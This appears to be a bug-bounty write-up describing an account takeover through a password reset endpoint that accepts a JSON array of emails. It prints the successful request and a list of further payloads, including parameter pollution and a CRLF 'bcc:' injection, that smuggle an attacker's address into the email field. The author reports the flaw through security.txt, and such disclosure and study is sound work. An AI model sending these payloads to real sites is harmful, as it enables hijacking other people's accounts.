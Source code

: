   ![Reset-Password](https://user-images.githubusercontent.com/106372696/171008056-dcd80d53-b8c0-4373-ab92-1a7d75615122.png)


Hi Everyone,

This is the story about how I managed to takeover some one account using password reset flaw on the website.While browsing the website I need to signin to the account but It was a long time ago since I logged into my account.so, I can't remember my password so I decided to reset my password, but suddendly I decide to play with password reset functionality if I can reset someone's account.
	
#### Attempt 1:
I intercept the traffic with Burpsuite and capture the request and saw something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "something@email.com"
}

```
I changed the request body something like this

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com",
       "email" : "myemail2@email.com"
}

```

And of course its failed only reset token sent to myemail1 account not myemail2 account.

#### Never Give Up:
After that I tried some other methods like following

```bash
POST /ResetPassword

...
...

{
	"email" : "myeamil1@email.com%20myemail2@email.com"
}

```

```bash
POST /ResetPassword

...
...

{
	"email" : "myemail1@email.com%20cc:myemail2@email.com"
}

```

#### One Last Ride...
Ok, thats it I was ready to give up but I remember one blog post that I read, it mentioned you can use **JSON Table** That will help you to send set of elements in array so, I give it a try luckily It sent password reset link to my attacker account and I can able to reset victim's account.

```bash
POST /Resetpassword

...
...

{
	"email" : ["myemail1@email.com","myemail2@email.com"]
}

```

Then I decided to send the report to their security team, but they don't have VDP or RDP on any crowdsource platform like Hackerone or Bugcrowd.So, I search **security.txt**(RFC 9116) and find their security team email that tells me where I should report related to security issues. I sent my finds and they reward me through btc (they don't hall of fame :( ).

	Note: You can find security.txt by https://www.website.com/.well-known/security.txt
	
#### Other methods to check password related issues:

```bash
POST /ResetPassword

...
...

email="victim@email.com&email=attacker@email.com"

```

```bash
POST /ResetPassword

...
...

email="victim@email.com%20email=attacker@email.com"

```

```bash
POST /ResetPassword

... 
...

email="victim@email.com|email=attacker@email.com" 

```

```bash
POST /ResetPassword 

... 
...

email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"  

```

I don't do bug bounties but this one I accidently try my luck and got success..Thanks for Reading this article. I hope you all enjoy this one. cheers :)

Usefull Resources :

[Password Reset Poisoning - Portswigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning)

[10 Password Reset Flaws - AnugrahSR](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)

[All about Password Reset Vulnerablities - Infosec Writeups](https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7?gi=5037f755d2b2)
